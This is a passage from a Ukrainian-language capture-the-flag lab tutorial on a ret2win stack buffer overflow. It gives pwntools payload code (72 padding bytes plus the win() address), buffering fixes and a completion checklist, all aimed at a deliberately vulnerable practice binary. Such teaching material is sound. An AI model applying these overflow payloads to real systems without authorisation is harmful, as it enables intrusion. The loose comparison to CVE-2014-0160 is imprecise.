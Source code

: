 **Перевірте payload:**
```python
payload = b'A' * 72 + p64(win_addr)
print(f"Length: {len(payload)}")      # Має бути 80
print(f"Last 8 bytes: {payload[-8:].hex()}")  # Має бути адреса win
```

### Немає виводу прапора?

**Перевірте буферизацію:**
```c
setbuf(stdout, NULL);  // Має бути в коді
```

**Додайте в exploit:**
```python
io.sendline(payload)
time.sleep(0.5)        # Дайте час на обробку
print(io.recvall(timeout=2).decode())
```

## ✅ Чеклист виконання

- [ ] Зібрано бінарник через `build.sh`
- [ ] Перевірено що всі захисти вимкнені (checksec)
- [ ] Знайдено адресу win() через objdump або pwntools
- [ ] Зрозумів механізм справжнього BOF
- [ ] Створив робочий exploit з offset=72
- [ ] Отримав прапор FLAG{STAGE6_RET2WIN}
- [ ] Експериментував з різними offset
- [ ] Зрозумів як return використовує saved RIP
- [ ] Знаю небезпечні функції (gets, strcpy, etc)
- [ ] Готовий до Stage 07 (leak + ASLR)!

---

**Час виконання:** 20-30 хвилин
**Складність:** ⭐⭐⭐☆☆ (Середня)
**Категорія:** PWN / Buffer Overflow
**Ключові поняття:** BOF, saved RIP, return hijacking, ret2win
**CVE аналоги:** CVE-2014-0160, CVE-2020-1350 та тисячі інших

## 🎉 Вітаємо!

Ви щойно експлуатували **справжній buffer overflow**! Це фундаментальна техніка в binary exploitation. Всі складніші атаки (ROP, ret2libc) базуються на цій концепції.

**Наступний виклик:** У Stage 07 і 08 додадуться захисти (NX, ASLR), і доведеться використовувати просунутіші техніки!
